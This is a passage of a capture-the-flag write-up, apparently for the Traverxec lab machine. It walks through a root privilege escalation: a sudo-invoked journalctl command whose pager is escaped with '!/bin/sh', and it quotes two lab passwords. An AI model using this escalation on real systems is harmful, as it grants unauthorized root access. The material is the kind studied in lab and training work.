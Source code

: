 There is an interesting directory in `/home/david/`:

![user7](./traverxec/user7.png)

`server-stats.sh` has the following content:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

This script is interesting since it calls `sudo`. Trying to run `sudo -l` asks for a password and `hunter` or `Nowonly4me` do not work. `journalctl` is a known vector for Sudo:

- https://gtfobins.github.io/gtfobins/journalctl/

Run the following command and enter `!/bin/sh` to get a `root` shell:

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

![root1](./traverxec/root1.png)

